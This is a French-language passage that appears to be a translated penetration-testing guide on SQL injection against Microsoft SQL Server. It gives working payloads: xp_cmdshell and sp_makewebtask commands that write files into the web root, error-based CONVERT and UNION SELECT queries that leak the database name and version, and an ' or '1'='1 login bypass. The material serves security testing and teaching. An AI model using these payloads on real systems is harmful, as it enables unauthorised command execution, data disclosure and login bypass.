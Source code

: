Voyons maintenant quelques exemples d'attaques spécifiques à SQL Server qui utilisent les fonctions susmentionnées. La plupart de ces exemples utiliseront la fonction `exec`.

Ci-dessous, nous montrons comment exécuter une commande shell qui écrit la sortie de la commande `dir c:\inetpub` dans un fichier navigable, en supposant que le serveur Web et le serveur de base de données résident sur le même hôte. La syntaxe suivante utilise `xp_cmdshell` :

`exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--`

Alternativement, nous pouvons utiliser `sp_makewebtask` :

`exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--`

Une exécution réussie créera un fichier qui pourra être parcouru par le testeur de stylo. Gardez à l'esprit que `sp_makewebtask` est obsolète et, même s'il fonctionne dans toutes les versions de SQL Server jusqu'à 2005, il pourrait être supprimé à l'avenir.

De plus, les fonctions intégrées et les variables d'environnement de SQL Server sont très pratiques. Ce qui suit utilise la fonction `db_name()` pour déclencher une erreur qui renverra le nom de la base de données :

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name())`

Notez l'utilisation de [convert](https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-2017) :

`CONVERT ( data_type [ ( length ) ] , expression [ , style ] )`

`CONVERT` tentera de convertir le résultat de `db_name` (une chaîne) en une variable entière, déclenchant une erreur qui, si elle est affichée par l'application vulnérable, contiendra le nom de la BD.

L'exemple suivant utilise la variable d'environnement `@@version`, combinée à une injection de style `union select`, afin de trouver la version de SQL Server.

`/form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--`

Et voici la même attaque, mais en utilisant à nouveau l'astuce de conversion :

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)`

La collecte d'informations est utile pour exploiter les vulnérabilités logicielles au niveau du serveur SQL, via l'exploitation d'une attaque par injection SQL ou un accès direct à l'écouteur SQL.

Dans ce qui suit, nous montrons plusieurs exemples qui exploitent les vulnérabilités d'injection SQL via différents points d'entrée.

### Exemple 1 : Test d'injection SQL dans une requête GET

Le cas le plus simple (et parfois le plus gratifiant) serait celui d'une page de connexion demandant un nom d'utilisateur et un mot de passe pour la connexion de l'utilisateur. Vous pouvez essayer d'entrer la chaîne suivante "' ou '1'='1" (sans les guillemets doubles) :

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

Si l'application utilise des requêtes Dynamic SQL et que la chaîne est ajoutée à la requête de validation des informations d'identification de l'utilisateur, cela peut entraîner une connexion réussie à l'application.
